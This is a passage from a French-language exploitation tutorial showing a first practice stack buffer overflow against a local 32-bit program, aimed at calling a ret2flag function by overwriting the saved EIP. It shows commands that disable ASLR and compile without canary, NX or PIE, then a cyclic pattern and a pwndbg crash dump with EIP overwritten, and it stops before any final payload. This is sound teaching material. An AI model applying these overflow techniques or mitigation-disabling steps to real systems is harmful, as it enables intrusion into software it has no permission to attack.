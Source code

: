 ### Exemple pratique nº1

**Objectif nº1:** appeler la fonction `ret2flag` en écrasant la sauvegarde d'**`EIP`** _(stockée sur la pile lors de l'appel à la fonction)_ via un débordement de tampon _(buffer overflow)_.

> **Note**: _pour compiler 32 bits sur du 64 bits _`sudo dpkg --add-architecture i386 && sudo apt update sudo apt-get install gcc-multilib`

```bash
$ # on désactive l'ASLR (décrit un peu plus bas)
$ echo 0 > /proc/sys/kernel/randomize_va_space
$ # compile bof.c pour archi 32 bits en désactivant le Canari, le NX-Bit, ainsi que le PIE (décrits également plus bas)
$ gcc -m32 -fno-stack-protector -z execstack -no-pie bof.c -o bof
$ # on peut vérifier les sécurités activées sur un programme via la commande `checksec` dans gdb
$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
pwndbg$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
pwndbg$ # on calcule le padding nécessaire pour faire crasher le programme
pwndbg$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
pwndbg$ # on lance le programme avec le pattern généré
Program received signal SIGSEGV, Segmentation fault.

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────
 EAX  0x65
 EBX  0x41284141 ('AA(A')
 ECX  0xb7fb4890 (_IO_stdfile_1_lock) ◂— 0
 EDX  0x65
 EDI  0xb7fb3000 (_GLOBAL_OFFSET_TABLE_) ◂— insb   byte ptr es:[edi], dx /* 0x1d9d6c */
 ESI  0xb7fb3000 (_GLOBAL_OFFSET_TABLE_) ◂— insb   byte ptr es:[edi], dx /* 0x1d9d6c */
 EBP  0x41414441 ('ADAA')
 ESP  0xbffff320 ◂— 'AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
 EIP  0x2941413b (';AA)')
────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x2941413b
────────────────────────────────────────────[ STACK ]────────────────────────────────────────────
00:0000│ esp  0xbffff320 ◂— 'AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
01:0004│      0xbffff324 ◂— 'AaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
02:0008│      0xbffff328 ◂— '0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
03:000c│      0xbffff32c ◂— 'AAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
04:0010│      0xbffff330 ◂— 'A1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
05:0014│      0xbffff334 ◂— 'GAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
06:0018│      0xbffff338 ◂— 'AA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
07:001c│      0xbffff33c ◂— 'AHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
──────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────
 ► f 0 2941413b
   f 1 41454141
   f 2 41416141
   f 3 46414130
   f 4 41624141
   f 5 41413141
   f 6 63414147
   f 7 41324141
   f 8 41414841
   f 9 33414164
   f 10 41494141
```